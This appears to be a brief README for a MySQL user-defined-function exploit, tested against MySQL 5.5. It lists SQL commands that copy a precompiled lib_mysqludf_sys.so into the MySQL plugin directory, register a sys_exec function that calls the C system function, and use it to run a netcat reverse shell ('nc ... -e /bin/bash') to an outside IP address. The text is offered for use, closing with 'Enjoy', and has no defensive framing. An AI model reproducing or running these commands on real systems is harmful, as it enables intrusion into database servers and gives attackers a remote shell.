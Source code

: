 # Mysql UDF exploit



Tested with : mysql 5.5.60-0+deb8u1


Create a 'User Defined Function' calling C function 'system'
Use pre-compiled 32 or 64 depending on target.

Copy file to /tmp

create database exploittest;
use exploittest;
create table bob(line blob);
insert into bob values(load_file('/tmp/lib_mysqludf_sys.so'));
select * from bob into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys.so
create function sys_exec returns int soname 'lib_mysqludf_sys.so';
select sys_exec('nc 11.0.0.21 4444 -e /bin/bash');


Enjoy
